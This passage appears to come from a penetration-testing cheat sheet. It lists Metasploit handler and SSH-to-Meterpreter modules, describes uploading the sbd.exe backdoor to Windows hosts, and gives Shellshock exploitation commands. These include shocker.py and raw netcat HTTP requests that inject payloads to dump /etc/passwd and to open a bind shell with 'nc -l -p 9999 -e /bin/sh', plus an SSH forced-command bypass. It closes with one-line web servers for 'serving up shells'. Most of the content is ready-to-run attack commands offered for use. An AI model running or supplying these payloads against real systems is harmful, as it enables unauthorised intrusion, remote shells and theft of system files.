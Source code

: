       Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

-   SBD.exe

     sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.
     sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

-   Shellshock

    -   Testing for shell shock with NMap
    
    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    -   git clone https://github.com/nccgroup/shocker

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
        
              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)  
    
              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell  
    
             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

